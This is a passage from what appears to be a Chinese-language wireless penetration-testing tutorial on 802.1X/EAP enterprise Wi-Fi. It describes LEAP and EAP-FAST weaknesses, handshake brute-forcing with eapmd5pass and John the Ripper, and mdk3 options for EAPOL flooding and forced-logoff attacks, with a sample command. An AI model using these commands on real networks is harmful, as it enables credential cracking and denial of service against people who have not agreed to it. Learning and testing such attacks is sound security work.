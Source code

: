 ```
eapmd5pass -r  <握手包文件名>  -w <字典>

```

### LEAP

Cisco的东西。叫轻量级EAP，特点也是数据不受SSL保护，用的是MS-CHAPV1，也就是我上面说的那个第一个版本。这就更别说了，还不如个WEP，03年就能黑了。

### EAP-FAST

LEAP的升级版，有个受保护的访问凭证（PAC）在TLS端验证，说也是有漏洞，但是我对这个加密接触不是太多，也没遇到过，可能见识短吧，大家有遇到的可以交流交流，但是估计也没啥价值。

LEAP的破解方法也是捕获四次握手，然后暴力破解。具体方法见上面都一个道理。简单的东西不多说.

针对一些高复杂的密码呢，我们可以去试试John the Ripper。 也叫JTR，也不错。支持的算法也多：

[https://github.com/magnumripper/JohnTheRipper](https://github.com/magnumripper/JohnTheRipper)

在我们针对一个未知的不了解的企业热点进行渗透时，我们需要事先清楚它是采用什么加密，我们可以通过wireshark过滤一下类型：

images:  a0d3515d8eebe14be4342de325748a1eb1409740.jpg

也算个小技巧，受用。

顺便再贴一个MDK3关于802.1X的攻击方法。

```
mdk3 mon0 x  
    0 - EAPOL Start packet flooding   #EAPOL格式的报文洪水攻击
        -n <ssid>               
        -t <bssid>        #目标客户端的mac地址               
        -w <WPA type>
           Set WPA type (1: WPA, 2: WPA2/RSN; default: WPA)
        -u <unicast cipher>
           Set unicast cipher type (1: TKIP, 2: CCMP; default: TKIP)
        -m <multicast cipher>
           Set multicast cipher type (1: TKIP, 2: CCMP; default: TKIP)
        -s <pps>      #速率，默认400               
    1 - EAPOL Logoff test       #注销认证攻击
        -t <bssid>       #目标客户端的mac地址             
        -c <bssid>       #目标ap的合法客户端mac               
        -s <pps>         #速率，默认400  

```

`MDK3 X 1 -t <目标mac地址> -c <客户端mac地址>`

images:  334ff9abd801c7d5e2f376c5458941f38153a85e.jpg

再推荐个工具吧：3vilTiwnAttacker

老外写的一款做无线劫持，嗅探为一体的工具。新出的，觉得不错大家可以试试。

[https://github.com/joridos/3vilTiwnAttacker](https://github.com/joridos/3vilTiwnAttacker)里面附带演示视频

其实呢，我觉得吧，大家如果是真想研究的话呢，不妨去自己下载个FreeRadius去研究下。

[http://freeradius.org/](http://freeradius.org/)
